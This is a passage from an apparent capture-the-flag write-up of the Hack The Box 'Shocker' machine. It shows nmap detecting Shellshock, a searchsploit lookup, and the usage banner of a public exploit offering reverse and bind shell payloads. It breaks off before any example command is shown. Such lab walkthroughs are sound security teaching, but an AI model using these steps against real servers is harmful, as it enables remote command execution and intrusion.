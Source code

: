 ```bash
|     IDs:  CVE:CVE-2014-6271
|       This web application might be affected by the vulnerability known
|       as Shellshock. It seems the server is executing commands injected
|       via malicious HTTP headers.
|             
|     Disclosure date: 2014-09-24
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-7169
|       http://www.openwall.com/lists/oss-security/2014/09/24/10
|_      http://seclists.org/oss-sec/2014/q3/685

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.42 seconds
```

Now that we know it is vulnerable, we can check `searchsploit` if there are any suitable exploits that we can use.

```bash
$ searchsploit apache mod_cgi
----------------------------------------------------------- ---------------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------------------
Apache mod_cgi - 'Shellshock' Remote Command Injection     | linux/remote/34900.py
----------------------------------------------------------- ---------------------------------
```

This exploit will allow us to run remote commands so copy it and run it

```bash
$ searchsploit -m 34900      
  Exploit: Apache mod_cgi - 'Shellshock' Remote Command Injection
      URL: https://www.exploit-db.com/exploits/34900
     Path: /usr/share/exploitdb/exploits/linux/remote/34900.py
File Type: Python script, ASCII text executable, with CRLF line terminators

Copied to: /home/kali/Desktop/htb/shocker/34900.py
```

# Exploitation (1)

```bash
$ python2 34900.py                                                                     2 ⨯


                Shellshock apache mod_cgi remote exploit

Usage:
./exploit.py var=<value>

Vars:
rhost: victim host
rport: victim port for TCP shell binding
lhost: attacker host for TCP shell reversing
lport: attacker port for TCP shell reversing
pages:  specific cgi vulnerable pages (separated by comma)
proxy: host:port proxy

Payloads:
"reverse" (unix unversal) TCP reverse shell (Requires: rhost, lhost, lport)
"bind" (uses non-bsd netcat) TCP bind shell (Requires: rhost, rport)

Example:

```